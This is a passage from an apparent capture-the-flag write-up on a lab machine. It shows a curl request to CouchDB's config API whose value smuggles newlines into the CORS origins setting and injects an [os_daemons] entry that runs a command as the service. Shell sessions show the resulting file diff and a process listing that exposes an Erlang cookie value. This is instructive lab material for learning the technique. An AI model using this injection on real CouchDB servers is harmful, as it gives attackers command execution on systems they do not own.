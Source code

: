 Start with a clean and now writable `local.ini` (and a backup):

```

root@canape:/home/homer/etc# ls -l
total 40
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args

```

We can use curl to modify the origins in the `local.ini` file. The vulnerability here is that if we use curl to put a new origin and then newlines, we can write additional stuff, including a new header and details. So we’ll take advantage of the `[os_daemons]` field, and add a process for CouchDB to try to keep running:

```

www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"

```

In the root shell, we can see what changes:

```

root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
<
< [cors]
< origins = 0xdf
<
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf

```

And yet, the file isn’t there:

```

root@canape:/home/homer/etc# ls /tmp/0xdf
ls: cannot access '/tmp/0xdf': No such file or directory

```

If we look at the processes running with “couchdb” in the cmdline, we see not only the line command line that gives us the cookie value we used earlier, but also `runsrv couchdb`:

```

root@canape:/home/homer/bin# ps aux | grep couch
root        711  0.0  0.0   4240   696 ?        Ss   14:28   0:00 runsv couchdb
root        728  0.0  0.0   4384   812 ?        S    14:28   0:00 svlogd -tt /var/log/couchdb
homer      1785  0.8  3.1 638992 31248 ?        Sl   17:55   0:01 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bi
n/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config

```
